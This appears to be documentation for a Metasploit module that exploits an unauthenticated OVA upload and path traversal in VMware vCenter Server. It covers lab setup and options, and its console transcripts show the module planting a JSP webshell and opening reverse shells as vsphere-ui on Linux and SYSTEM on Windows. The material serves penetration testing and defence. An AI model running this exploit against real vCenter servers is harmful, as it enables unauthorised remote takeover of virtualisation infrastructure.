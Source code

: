 ## Vulnerable Application

### Description

This module exploits an unauthenticated OVA file upload and path
traversal in VMware vCenter Server to write a JSP payload to a
web-accessible directory.

Fixed versions are 6.5 Update 3n, 6.7 Update 3l, and 7.0 Update 1c.
Note that later vulnerable versions of the Linux appliance aren't
exploitable via the webshell technique. Furthermore, writing an SSH
public key to `/home/vsphere-ui/.ssh/authorized_keys` works, but the
user's non-existent password expires 90 days after install, rendering
the technique nearly useless against production environments.

You'll have the best luck targeting older versions of the Linux
appliance. The Windows target should work ubiquitously.

### Setup

Follow [VMware's official
documentation](https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vcenter.install.doc/GUID-8DC3866D-5087-40A2-8067-1361A2AF95BD.html)
on installing and configuring vCenter Server, or you can wing it like
me. The Linux appliance is meant to be deployed via ESXi, but I
short-circuited the procedure by mounting the ISO and importing the OVA
directly into VMware Fusion (or your desired hypervisor). YMMV.

```
wvu@kharak:~/Downloads$ hdiutil attach VMware-VCSA-all-6.7.0-11726888.iso
/dev/disk2          	                               	/Volumes/VMware VCSA
wvu@kharak:~/Downloads$ ls -l /Volumes/VMware\ VCSA/vcsa
total 4621748
-r-xr-xr-x  1 wvu  staff  2366330368 Jan 10  2019 VMware-vCenter-Server-Appliance-6.7.0.21000-11726888_OVF10.ova
dr-xr-xr-x  5 wvu  staff        2048 Jan 10  2019 ovftool
-r-xr-xr-x  1 wvu  staff          52 Jan 10  2019 version.txt
wvu@kharak:~/Downloads$
```

If you're using the workaround above, you'll need to connect to HTTPS
port 5480 to complete [Stage
2](https://docs.vmware.com/en/VMware-vSphere/6.7/com.vmware.vcenter.install.doc/GUID-CA114526-A413-4219-9FA7-F5A9E9ACA357.html)
of the faux deployment. You may need to set a root password in the
console first. The vSphere Client should be accessible on port 443 after
Stage 2 is complete.

You'll want to test versions earlier than 6.7 Update 3l, since that's
patched. Later vulnerable versions of the Linux appliance aren't
exploitable via the webshell technique. I haven't been able to download
and test them all. Sorry.

**Note:** If you're testing on Windows, using Windows Server 2019 will
fail miserably. Please use [Windows Server 2016 or
earlier](https://kb.vmware.com/s/article/2091273). It must be Windows
Server. I can't stress this enough!

**PROTIP:** Removing or otherwise disabling DNS resolution in the Linux
appliance will make setup run faster if you don't have an FQDN and DNS
server to back it up. This didn't seem to make a difference on Windows.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

This targets the Linux appliance with a JSP payload. `VMware vCenter
Server <= 6.7 Update 1b (Linux)` is supported.

### 1

This targets the Windows install with a JSP payload. `VMware vCenter
Server <= 6.7 Update 3j (Windows)` is supported.

## Options

### SprayAndPrayMin

Spray JSP payload path starting at this index.

### SprayAndPrayMax

Spray JSP payload path stopping at this index.

## Scenarios

### VMware vCenter Server 6.7 Update 1b (Linux appliance)

```
msf6 > use exploit/multi/http/vmware_vcenter_uploadova_rce
[*] Using configured payload java/jsp_shell_reverse_tcp
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > options

Module options (exploit/multi/http/vmware_vcenter_uploadova_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path
   VHOST                       no        HTTP server virtual host


Payload options (java/jsp_shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL                   no        The system shell to use.


Exploit target:

   Id  Name
   --  ----
   0   VMware vCenter Server <= 6.7 Update 1b (Linux)


msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > set rhosts 192.168.123.135
rhosts => 192.168.123.135
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/vmware/esx_fingerprint as check
[+] 192.168.123.135:443 - Identified VMware vCenter Server 6.7.0 build-11727113
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target is vulnerable. Unauthenticated endpoint access granted.
[*] Uploading OVA file: O2qAd1Y7t0bhyUQFJ32Vyre6TQHcGoun.ova
[+] Successfully uploaded OVA file
[*] Requesting JSP payload: https://192.168.123.135/ui/resources/gVh2ROzD9QyyGNF6.jsp
[+] Successfully requested JSP payload
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.135:55342) at 2021-03-05 16:49:05 -0600
[+] Deleted /usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/41/0/h5ngc.war/resources/gVh2ROzD9QyyGNF6.jsp
[+] Deleted /usr/lib/vmware-vsphere-ui/server/work/deployer/s/global/40/0/h5ngc.war/resources/gVh2ROzD9QyyGNF6.jsp

id
uid=1016(vsphere-ui) gid=100(users) groups=100(users),59001(cis)
uname -a
Linux photon-machine 4.4.161-1.ph1 #1-photon SMP Wed Oct 17 12:15:18 UTC 2018 x86_64 GNU/Linux
^Z
Background session 1? [y/N]  y
```

### VMware vCenter Server 6.7 Update 3j on Windows Server 2016

```
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > set target 1
target => 1
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > set rhosts 192.168.123.194
rhosts => 192.168.123.194
msf6 exploit(multi/http/vmware_vcenter_uploadova_rce) > run

[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/vmware/esx_fingerprint as check
[+] 192.168.123.194:443 - Identified VMware vCenter Server 6.7.0 build-16709044
[*] Scanned 1 of 1 hosts (100% complete)
[+] The target is vulnerable. Unauthenticated endpoint access granted.
[*] Uploading OVA file: 0ggORbkxAcptUeH6U5S8.ova
[+] Successfully uploaded OVA file
[*] Requesting JSP payload: https://192.168.123.194/statsreport/UQbpAxH7WTmrzqcb7AugtYnMB2z0.jsp
[+] Successfully requested JSP payload
[*] Command shell session 2 opened (192.168.123.1:4444 -> 192.168.123.194:55411) at 2021-03-05 16:50:29 -0600
[!] Tried to delete /ProgramData/VMware/vCenterServer/data/perfcharts/tc-instance/webapps/statsreport/UQbpAxH7WTmrzqcb7AugtYnMB2z0.jsp, unknown result


C:\Program Files\VMware\vCenter Server\perfcharts\wrapper\bin>whoami
whoami
nt authority\system

C:\Program Files\VMware\vCenter Server\perfcharts\wrapper\bin>
```

